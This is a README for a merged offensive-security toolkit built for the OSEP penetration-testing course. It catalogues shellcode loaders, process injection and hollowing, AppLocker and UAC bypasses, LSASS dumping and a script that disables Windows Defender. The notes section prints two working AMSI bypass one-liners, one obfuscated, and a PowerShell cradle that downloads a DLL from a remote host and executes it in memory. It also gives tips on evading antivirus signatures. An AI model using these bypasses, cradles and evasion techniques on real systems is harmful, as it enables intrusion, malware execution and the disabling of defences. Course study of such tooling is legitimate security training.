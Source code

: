 # OSEP Tools v2

A marriage between [Octoberfest/OSEP-Tools](https://github.com/Octoberfest7/OSEP-Tools) and [chvancooten/OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets). Thanks to those guys for putting in the real work.

I made some changes to the repos obviously. The easiest way to see what I've done is check the commits and my [Changelog](#osep-tools-v2-changelog) section below. Basically what I did was just rewrite/reformat the documentation for the tools, and fix some things here and there.

Alot of my focus has been on adding to the shellcode loading C#/PS projects, and Misc things. I most of OSEP-Tools, and a few projects from OSEP-Code-Snippets that weren't covered already.

Below is a small table of contents, some notes, my changelog, and then the disclaimer from the OG OSEP-Tools repo author.

## ToC

| Module | Description | SubModules |
| ------ | ----------- | ---------- |
| Active_Directory | Tools that may aid in AD enumeration/exploitation | `sql` |
| AppLocker_Bypass | Tools that may aid in bypassing AppLocker | `altBypass`, `psBypass` |
| Linux | Tools that aid in executing shells on a Linux box | `Linux_Shellcode_Encoders`, `Linux_Shellcode_Loaders` |
| Loaders_PEs | Tools that aid in loading EXEs (PEs) into memory, *from disk*, and executing | `DLLInject64`, `DLLRunner32` |
| Loaders_Shellcode | Tools that aid in loading executable shellcode into memory from a remote server and executing | `clrunner`, `clhollow`, `clinject`, `D_invoke`, `powerhollow.py`, `powerinject.py` |
| Macros | Tools that aid in executing shellcode either from memory or disk, from a word VBS Macro | `WordMacroRunner.vbs`, `WordMacroRunnerBasic.vbs`, `vbObfuscate.ps1`, `WordPsCradle.vbs`, `WordMacroInject.vbs` |
| Misc | Tools aiding in misc things like AV enumeration, automation, dumping LSASS memory, and RCE leveraging win32 API | `AV_Stuff`, `Autos`, `PSLessExec`, `MiniDump` |
| Privilege_Escalation | Tools that aid in Windows PE | `PrinSpoofer.Net`, `shakeitoff`, `UACBypass.ps1` |

## OSEP-Tools-v2 Changelog
- [11/25/2023](https://github.com/hackinaggie/OSEP-Tools-v2/commit/abf34fb4b0c761091ace1be6368c8bbdfcc3b2bb)
    - Initial commit; File structure changes, README updates/prettifying, repo merging
- 11/26/2023
    - Updated `WordMacroInject.vbs` to be able to inject when ran from a 32-bit Word process
    - Updated `WordMacroInject.vbs` to enumerate 32-bit processes and inject into a process other than `WINWORD.exe`
    - Updated `Disable-AVProduct.ps1` to better enumerate security products
    - Added `Misc/Autos` directory to automate common processes; Added `Create-Admin.ps1`
- 12/01/2023
    - Updated `Disable-AVProduct.ps1` to actually disable windows defender (using provided cmdlets/registry keys, nothing crazy)
    - More thorough minifying of `Disable-AVProduct.min.ps1`
    - Fix `powerhollow.py` and `powerinject.py` payloads to not fail if no Amsi found
    - Add input checks to ensure hollowing targets are valid
- 12/03/2023
    - Compile all projects to single directory for ease of access
- 12/13/2023
    - Fix D_invoke dependency issue. Modify underlying build command to allow build error debugging
    - Add reverse shell functionality to `altbypass`
    - Add new formatter `bin_to_vbappArray.py`
    - Update `powerinject.py` payloads to always execute in a 64-bit process
- 01/06/2023
    - Update `powerinject.py` target injection process identification method. Add `any` target option.
    - Add `clrunner` payload. Add InstallUtil bypass to all `cl*` Shellcode Loaders.
    - General Optimization of projects mapped to `payloads/` directory.
- 01/07/2023
  - Add `DLLInject64` and `DLLRunner32`. Remove `nonDN2J.hta`.

## TODOs

- Implement dynamic AMSI search capability as seen here: https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/
- Update `AV_Stuff` scripts
    - Add AppLocker Rules  disabling option to `Get-AppLockerRules.ps1`
    - Add `DisableLSA` script using my private notes
- Patch the `x64_met_staged_reverseHttps*` payloads in `/bins` bc they don't work. The tcp do.
    - Notes in the Loaders_Shellcode readme
- Integrate more of OSEP-Code-Snippets
- Update `UACBypass.ps1`

## Notes

### Powershell AMSI bypass:
  
- Win10
```ps1
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
  
- Win10+Win11  
```ps1
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
 
- Powershell Dll download cradle (replace ip/file name but leave rest as is when using D/invoke builder generated payloads!):
```ps1
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.195/basic.dll');$assem = [System.Reflection.Assembly]::Load($data);$class = $assem.GetType("dll.Class1");$method = $class.GetMethod("runner");$method.Invoke(0, $null)  
```

With Powerinject/Powerhollow make sure you think about whether you will be calling PS download cradle from powershell or cmd.exe and use the appropriate mode when constructing payloads.  When you call powershell.exe <cradle> from cmd.exe or even from another powershell window, you are creating a child process and while the embedded AMSI bypass may work for the child process the parent process will detect the child performing malicious actions and flag it.
  
- Do NOT use msfvenom encoders with any Hollowing tool. Causes problems.
  
### Injection tools

Your target for injection must be of the same integrity or lower than the method by which you have code execution.  I.e. if you are running in medium integrity you cannot inject into spoolsv, inject into explorer.
  
### Hollowing tools

Your target parent process for PPID spoofing must be of the same integrity or lower than the method by which you have code execution. I.e. if you are running in medium integrity you cannot specify spoolsv as the parent process.  Hollowed process will inherit the integrity of parent process.

### Discoveries

- Latest patch defender (Oct 2021) seems to have an "AND" based signature for `AutoOpen()`.  It can be used in macros for benign purposes but as soon as API calls are included (or at least things used in shellcode runners), it flags signature based detection.
- `RtlMoveMemory` API call is signatured.  Use `RtlFillMemory` instead. 
- Resolve `Amsi.dll` and the function calls within it either dynamically or heavily obfuscated when you go to patch it.
- Meterpreter shells after using Migrate seem to get caught by defender sometimes... Doesn't seem to be the case for straight up injection payloads.

### RESOURCES

- https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
- https://secureyourit.co.uk/wp/2020/04/18/enumerating-process-modules-in-vba/

# Disclaimer
> @Octoberfest7

All of these tools were developed for use in the OSEP course.  During development of them, as I learned more, in many cases I went above and beyond what the course taught because I figured "Why not build things against latest patch AV?".  That is not to say that all of the things in this repo are now beating Live Defender; however at one point or another, most of them were.  I hope that they may be of use to others, either for direct usage or to serve as inspiration for further work.

There is very little in terms of actual novel tradecraft here; it is a combination of a myriad of resources provided by people far smarter than I.  The majority of the heavy lifting I did here was towards automation.  I wanted an easy, standardized way to generate payloads for use in the OSEP course. All powershell and C# payloads contained within this repo utilize AES-256 encryption on the shellcode as well as a sleep statement for sandbox detection/evasion.

I offer no guarantees of any kind when using this stuff.  Nothing in here was designed for public release, I am doing so after many requests.  Make sure you read the notes provided on each tool in this README.
